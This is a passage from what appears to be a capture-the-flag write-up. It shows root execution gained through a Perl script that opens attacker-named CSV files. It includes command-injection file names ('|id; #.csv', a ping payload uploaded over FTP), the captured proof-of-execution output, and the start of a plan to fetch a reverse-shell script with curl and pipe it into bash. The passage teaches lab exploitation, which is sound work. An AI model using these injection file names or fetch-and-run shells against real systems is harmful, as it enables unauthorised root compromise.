     oxdf@parrot$ touch '|id; #.csv'
    

It runs the command:

    
    
    oxdf@parrot$ perl test.pl ignore *.csv
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(debian-tor),124(bluetooth),140(scanner),153(docker),998(vboxsf)
    1
    2
    3
    a
    b
    

All of this is to show that if I can write into these directories (and create
a file with a name like this), I’ll have execution as root.

#### POC on PikaBoo

I’ll use FTP to upload the empty `text.txt` file, but change the name to
something that will `ping` me if it executes:

    
    
    ftp> put test.txt "|ping -c 1 10.10.14.6; a.csv"
    local: test.txt remote: |ping -c 1 10.10.14.6; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    

When the minute rolls over, I get ICMP packets:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    16:20:05.293445 IP 10.10.10.249 > 10.10.14.6: ICMP echo request, id 25701, seq 1, length 64
    16:20:05.293486 IP 10.10.14.6 > 10.10.10.249: ICMP echo reply, id 25701, seq 1, length 64
    

#### Shell

The challenge here is that I have to put everything I want to do in one line,
and it can’t contain `/`. That means I can’t call a script in another
directory, or directly do a reverse shell as they all contain `/`. I found two
ways to do this (there are probably more).

One is to create a rev shell Bash script on my host and request it with `curl`
and pipe it into `bash`. The only trick is I can’t use `/`, so I just need to
make it the index file. On my host:

    
    
    oxdf@parrot$ cat index.html 
    #!/bin/bash
    